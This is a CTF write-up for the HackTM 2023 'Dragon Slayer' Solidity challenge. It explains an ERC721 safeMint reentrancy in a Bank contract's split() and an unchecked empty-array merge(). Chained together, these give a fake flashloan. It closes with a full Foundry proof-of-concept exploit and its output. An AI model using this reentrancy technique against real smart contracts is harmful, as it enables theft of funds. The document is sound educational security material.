

<!--more-->


## Introduction


The ***19 February 2023*** the HackTM CTF has been launched.

The CTF has 2 smarts contract challenges. Both of them were on Solidity.

This writeup will cover the first challenge, **Dragon Slayer** the goal of the challenge is to kill the *Dragon*!


---
Let’s download the challenges and see what we have here. \
We have <u>9 contracts</u> describe as follow: 

| Contract Name | Purpose |
| --- | --- |
| Bank | Bank permit to store the `GoldCoin` Also transfer `GoldCoin` to another bank account (using the bankNotes) |
| BankNote | An ERC721 (NFT) used to store the amount of `GoldCoin` deposited or transfered. |
| Dragon | The `Dragon` is the enemy we want to kill! The `Dragon` has health set **1 000 000**. |
| GoldCoin | The `ERC20` token this is the money of the game and can be used into the `Shop` to buy some `Item` |
| Item | The `Item` that the `Knight` can equip like `Sword` or `Shield` (Items are stored in the store). |
| Knight | The `Knight` We are the `Knight`, we can attack the `Dragon`, also equip `Item` previously bought into the `Shop`, also deposit or withdraw money from the our `Bank` account. The health is set to 10 (Health of the `Knight`) |
| Setup | The `Setup` is the to create the contract and initialize the challenge (cf. Paradigm CTF or MevSec Challenge). This will create the `Knight` and give to the `Knight` (a bad quality `Sword` + `Shield` that make less damage) so there are not sufficient to fight the `Dragon`. |
| Shop | The `Shop` is the place where  you can buy/sell `Item` used by the `Knight` (`Sword`, `Shield`). It's worth noting, inside the `Shop` there is 2 `Item`that are really powerful but extremely expensive (The currency of the `Shop` is  `GoldCoin`) |

As usual the `setup.sol` permits to initialize the challenge so let’s see how the challenge is created ⬇️

```bash
		function isSolved() external view returns (bool) {
        return knight.health() > 0 && knight.dragon().health() == 0;
    }
```

The challenge will be solved when the ***health*** of the `Dragon` will be at **0** and the `Knight` is still alive!

Just to recap, this is a scheme to understand the challenge. 



Obviously, if we are trying to attack the dragon with the first equipment (`SWORD`, `SHIELD`) provided at the **beginning** by the creator, we will die instantly.


Because the **health** of the dragon is  *1_000_000* if we attack with the first *SWORD* we will only make **1** damage.. But the last *SWORD* of the `Shop` is extremely powerful but also extremely expensive! 

.")

With this equipment we should succeed to kill the dragon ⇒ (1_000_000 Attack + 1_000_000 defense)

### 1. Dragon

The `Dragon` attack is extremely powerful (the minimum attack damage is the *clawAttack* of **1 000 000** damages). 

```solidity
clawAttack = 1_000_000;
fireAttack = 10_000_000;
defence = 500_000;
```

This will be used In the function `fightDragon()` : 

```bash
function fightDragon() public onlyOwner onlyAlive {
        (uint dragonDamage, bool isFire) = dragon.doAttack();
        _receiveAttack(dragonDamage, isFire);
        if (health > 0) {
            dragon.receiveAttack(attack);
        }
}

function _receiveAttack(uint damage, bool isFire) private {
        if (isFire && hasAntiFire) {
            return;
        }
        uint damageDone;
        if (damage > defence) {
            damageDone = damage - defence;
        }
        if (damageDone > health) {
            damageDone = health;
        }
        health -= damageDone;
 }
```

 When the `knight` is attacking the `dragon` by calling `fightDragon()` 

- The function will also trigger the attack of the `Dragon` because of the function calls `dragon.doAttack()`.

If we are looking closely: Only if we survive (means the health of our `Knight`> **0**) the attack can make damage to the `Dragon`…


However, the `dragon` is too powerful (1_000_000 damage with the *clawAttack*) and will one shot our knight after during our first attack… *But not always!*

### 2. Immunity to fire

Inside the `if` statement, we can clearly see that the attack of the `dragon` is reducing our health in the code inside the red rectangle.


But the first `if`, permits to bypass the damage from the `dragon`! (*this is the immunity to fire*). So inside this block the return be call before updating anything and will not reduce the health of the `Knight`. 


### 3. Fire Immunity how it’s works?

The `hasAntiFire` boolean attribut is only on the last *SHIELD* of the shop (the best *SHIELD that cost 1_000_000 ether*). If we got the last *SHIELD* equiped on our `knight` then we can call`fightDragon()` until the `dragon` is dead (*because we will be immune to fire and make 1 damage each call right?*)

No actually… Because the `dragon` will change of attack every 5 attacks he will use the *clawAttack* and oneshot our `knight`… So we need to kill him faster than 5 attacks… Hopefully,  the two last `Items` of the `shop` permits to kill the dragon faster than the 5 attacks maximal : 

| Items | Specifications | Cost in GoldCoin |
| --- | --- | --- |
| Sword (Abyssal Whip) | 1_000_000 damages | 1_000_000 GoldCoin |
| Shield (Dragonfire Shield) | 1_000_000 defense + immune to Fire Attack (perfect!) | 1_000_000 GoldCoin |

 

So this is perfect we have a plan of attack to kill the dragon but wait a minutes? 

The `knight` has only **10** `GoldCoin`….


So, the goal of the challenge is to find a way to **get the enough money** to **buy** both of the equipments (*SHIELD*, *SWORD*) and fight the `dragon`. 

---

### 4. Vulnerability Searching

So to start to find an entry point to exploit  the challenge we should start by the contracts that manipulated the `GoldCoin` as we know this will be probably related to the **money** of the game, because we need to have 2_000_000 `GoldCoin` 

⇒ A interesting contract related to the `GoldCoin` is the `bank` 💰 contract .

```bash
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.13;

import "./openzeppelin-contracts/utils/Counters.sol";

import "./GoldCoin.sol";
import "./BankNote.sol";

contract Bank {
    using Counters for Counters.Counter;

    uint constant INITIAL_AMOUNT = 10 ether;
    
    Counters.Counter private _ids;

    GoldCoin public goldCoin;
    BankNote public bankNote;
    mapping(uint => uint) public bankNoteValues;

    constructor() {
        goldCoin = new GoldCoin();
        bankNote = new BankNote();

        goldCoin.mint(msg.sender, INITIAL_AMOUNT);
    }

    function deposit(uint amount) external {
        require(amount > 0, "ZERO");

        goldCoin.burn(msg.sender, amount);

        _ids.increment();
        uint bankNoteId = _ids.current();

        bankNote.mint(msg.sender, bankNoteId);
        bankNoteValues[bankNoteId] = amount;
    }

    function withdraw(uint bankNoteId) external {
        require(bankNote.ownerOf(bankNoteId) == msg.sender, "NOT_OWNER");

        bankNote.burn(bankNoteId);
        goldCoin.mint(msg.sender, bankNoteValues[bankNoteId]);
        bankNoteValues[bankNoteId] = 0;
    }

    function merge(uint[] memory bankNoteIdsFrom) external {
        uint totalValue;

        for (uint i = 0; i < bankNoteIdsFrom.length; i++) {
            uint bankNoteId = bankNoteIdsFrom[i];

            require(bankNote.ownerOf(bankNoteId) == msg.sender, "NOT_OWNER");
            bankNote.burn(bankNoteId);
            totalValue += bankNoteValues[bankNoteId];
            bankNoteValues[bankNoteId] = 0;
        }

        _ids.increment();
        uint bankNoteIdTo = _ids.current();
        bankNote.mint(msg.sender, bankNoteIdTo);
        bankNoteValues[bankNoteIdTo] += totalValue;
    }

    function split(uint bankNoteIdFrom, uint[] memory amounts) external {
        uint totalValue;
        require(bankNote.ownerOf(bankNoteIdFrom) == msg.sender, "NOT_OWNER");

        for (uint i = 0; i < amounts.length; i++) {
            uint value = amounts[i];

            _ids.increment();
            uint bankNoteId = _ids.current();

            bankNote.mint(msg.sender, bankNoteId);
            bankNoteValues[bankNoteId] = value;
            totalValue += value;
        }

        require(totalValue == bankNoteValues[bankNoteIdFrom], "NOT_ENOUGH");
        bankNote.burn(bankNoteIdFrom);
        bankNoteValues[bankNoteIdFrom] = 0; 
    }

    function transferPartial(uint bankNoteIdFrom, uint amount, uint bankNoteIdTo) external {
        require(bankNote.ownerOf(bankNoteIdFrom) == msg.sender, "NOT_OWNER");
        require(bankNoteValues[bankNoteIdFrom] >= amount, "NOT_ENOUGH");

        bankNoteValues[bankNoteIdFrom] -= amount;
        bankNoteValues[bankNoteIdTo] += amount;
    }

    function transferPartialBatch(uint[] memory bankNoteIdsFrom, uint[] memory amounts, uint bankNoteIdTo) external {
        uint totalValue;

        for (uint i = 0; i < bankNoteIdsFrom.length; i++) {
            uint bankNoteId = bankNoteIdsFrom[i];
            uint value = amounts[i];

            require(bankNote.ownerOf(bankNoteId) == msg.sender, "NOT_OWNER");
            require(bankNoteValues[bankNoteId] >= value, "NOT_ENOUGH");

            bankNoteValues[bankNoteId] -= value;
        }

        bankNoteValues[bankNoteIdTo] += totalValue;
    }
}
```

The `bank` contract can **mint** `GoldCoin` to the `msg.sender` . (This a real central bank here 👋 **CBDC**).  

 with `mint()` function.")

After a quick analysis, the `Bank` has **no reentrancy guard implemented**…  There is multiples `mint()` actually (3 mints in the contract): 
We know that the mint() can lead to reeantrancy with `ERC721`. So we will looks potentials interested functions:

- split() ⇒ Using ERC721 ⚠️ (`BankNote` is an *ERC721*) ⚠️
    
     with `mint()` function.")
    
- merge() ⇒ This is one is ERC721 ⚠️ (`BankNote` is an *ERC721*) ⚠️
    
     with `mint()` function.")
    
- `withdraw()` ⇒ Is using ERC20 so this is safe to use no need to check here.

Using `ERC721` or `ERC1155` we have to be extremely careful with the `mint()` because this will **callback**  the **safemint** function (so `.mint()` ➡️ `_safemint()` and a has the **callback** on `onERC721Received` that can lead to reentrancy).

### 5. Homemade Flashloan

Now, if we are looking closely the function `split()` we can make create a “flashloan” using a reentrancy! (But we have to be an holder of a `bankNote` to do that explain later on).

```solidity
require(bankNote.ownerOf(bankNoteIdFrom) == msg.sender, "NOT_OWNER");//This will check if you are owner of the bankNoteIdFrom 
```

Let’s explain what is going on here: 

Because the function `split()` permits to mint a value to `msg.sender`.

 flashloan using reantrancy.")

1. The *amounts* is a `uint[]` this will be the amount to flashloan. Here, `[2_000_000,0]` should do the flashloan for us.
2. Then the value will be the amount of index so for the index(0) ⇒ *2_000_000*.
3.  ⚠️ The contract will mint a *bankNote* associate with the value and jump into the `onERC721Received` of the contract using the callback. 
4. The value of *2_000_000* is set inside the `BankNotesValues[]`.
5. Don’t forget we have to sendback the money back otherwise this will revert **at the end.**
6. Call the function `withdraw()`  below, with `bankNoteId` of the **step 3** this will mint the value of the tokens previously written in the **step 4.** 
    
     function that mint goldCoin.")
    
    And we will receive the money! That’s exactly what we are looking for! This will finally help us to *buy some stuffs to kill this damn dragon!*
    

Also we have to keep in mind to have a array of length **≥ 2**.
| index | Value|
| --- | --- |
| uint[0] | 2_000_000 |
| uint[1] | 0 |

If we are using a length of 1, then this will jump into the `onERC721Received` of the contract using the callback but **without updating** the `BankNotesValues[]` and then we won’t be able to call the function `withdraw()` (who burn the banknotes and mint the money). 

---

### 6. Be the owner of an NFT

As we previously speak, to trigger the flashloan and generate the money (to buy a powerful *SWORD* & *SHIELD*) we have to bypass this check by holding an NFT…  

```solidity
require(bankNote.ownerOf(bankNoteIdFrom) == msg.sender, "NOT_OWNER");//This will check if you are owner of the bankNoteIdFrom 
```

 Here, this is kind of a **jail** for the ERC721(bankNote) / ERC20(goldCoin) you cannot transfer them outside the authorized contracts of the ecosystem (if we look there is no features to transfer to another contract *damn it*!!) . I was stuck here… But actually there is another vulnerability into the `bank` contract that can lead to the minting of the ERC721 into the function `merge()` of a external contract.


1. Bypass the for statement that contains the check on the `msg.sender` (that will revert) using the size of `bankNoteIdsFrom` = 0 (empty tab).
2. Increment the NFT id to `mint()`.
3. Then mint the NFT id from the **step 2** (with the `ids.increment()`).
4. Update the value of `bankNoteValues[]` with 0 (not really important).

We finally succeed to mint an NFT! The fact that the banknotes will be set to **0** is not important here as we only want to have the NFT to trigger the reantrancy into the flashloan trick 🏴‍☠️

## Final Step

So this the final steps to produce the attack and kill this dragon: 

1. Mint an NFT using `merge()`.
2. Flashloan  2_000_000 GoldCoin using our homemade flashloan using `split()`.
3. Sending the money to the knight contract.
4. Buying the 2 super items using `buyItem(*4*)` & `buyItem(3)`
    1. Abyssal Whip (**SWORD**)
    2. Dragonfire Shield (**SHIELD**)
5. Equip the new items (Abyssal Whip, Dragonfire Shield) using `equipItem(3)` & `equipItem(4)`.
6. Fight the Dragon x2 times (because the dragon has Health + Shield) through `fightDragon()`.
7. After killing the dragon, we can sell our items via (`sellItem(*3*)` & `sellItem(4)`) to get back our 2_000_000 Goldcoins.
8. Deposit our money back to the bank using `bankDeposit(*2_000_000* ether)`.
9. Last but not least, we have to transfer the money to correct `bankNoteValues[ID]` 
    - If we have borrowed at the `id = 1` we must transfer the money to the `bankNoteValues[1]` to ensure this require will not fail otherwise the value won’t be to correct BankNotes.
        
        
        
    - To do this, we can use the function `transferPartial()` that will switch the `id` to the wanted one!
        
        
        

Voilaaaa! What a nice challenge from 0xKasper didn’t have the time to dive into the CTF… But this will obviously give some new idea of challenges for [ctf.mevsec.com](https://ctf.mevsec.com//)

### 6. Socials & Payload

| Discord (Join us!) | Github | Twitter | 
| ----------------------------- | ------ | ---------- | 
| https://discord.gg/54Q9pnpQcV |  https://github.com/Ethnical/Swek3      |  https://twitter.com/EthnicalInfo |


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/Test.sol";
import "src/Setup.sol";

contract PoC is Script, Test {
    uint256 internal increment;
    Setup S = new Setup();
    Knight K = Knight(S.knight());
    Dragon D = Dragon(S.knight().dragon());
    GoldCoin G = GoldCoin(S.knight().goldCoin());
    Shop Sh = Shop(S.knight().shop());
    Bank B = Bank(S.knight().bank());
    Item I = Item(S.knight().item());

    function setUp() public {}

    function run() public {
        S.claim();
        emit log_named_address("The Knight address", address(S.knight()));
        //emit log_named_uint("The Knight is alive", K.health() > 0);
        emit log_named_uint("Health of the knight", K.health());
        emit log_named_uint("Health of the Dragon", D.health());
        emit log_named_uint(
            "The number of gold piece of BANK",
            G.balanceOf(address(B)) / 1 ether
        );
        emit log_named_uint(
            "The number of gold piece",
            G.balanceOf(address(K)) / 1 ether
        );

        uint[] memory bankNoteIdsFrom = new uint[](1);
        uint[] memory amounts = new uint[](1);
        bankNoteIdsFrom[0] = 1;
        amounts[0] = 1;

        uint[] memory accounts = new uint[](0);
        B.merge(accounts);
        uint[] memory split_amount = new uint[](2);
        split_amount[0] = 2_000_000 * 1 ether;
        split_amount[1] = 0;
        B.split(1, split_amount);
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) public returns (bytes4) {
        if (increment == 0) {
            increment++;
            return this.onERC721Received.selector;
        }
        if (increment > 1) {
            B.bankNoteValues(2);
            B.withdraw(2);
            G.approve(address(Sh), type(uint256).max);
            Sh.buyItem(4);
            Sh.buyItem(3);
            I.safeTransferFrom(address(this), address(K), 3, 1, new bytes(0));
            I.safeTransferFrom(address(this), address(K), 4, 1, new bytes(0));
            K.equipItem(4);
            K.equipItem(3);
            K.fightDragon(); //Weird as fuck should one oneshot here
            K.fightDragon();
            K.sellItem(3);
            K.sellItem(4);
            emit log_named_uint(
                "The number of gold piece",
                G.balanceOf(address(K)) / 1 ether
            );
            K.bankDeposit(2_000_000 ether);
            K.bankTransferPartial(4, 2_000_000 ether, 1);

            emit log_named_uint("Health of the Dragon", D.health());
            emit log_named_uint("Health of the knight", K.health());
        }

        increment++;
        return this.onERC721Received.selector;
    }

    function onERC1155Received(
        address,
        address,
        uint256,
        uint256,
        bytes calldata
    ) public pure returns (bytes4) {
        return this.onERC1155Received.selector;
    }
}

```
Results of the payload: 
```bash
Script ran successfully.
== Logs ==
  The Knight address: 0x7aacc5300ec7ac58fe86645d08f21b1becadf99a
  Health of the knight: 10
  Health of the Dragon: 1000000
  The number of gold piece of BANK: 0
  The number of gold piece: 10
  The number of gold piece: 2000010
  Health of the Dragon: 0
  Health of the knight: 10

  ```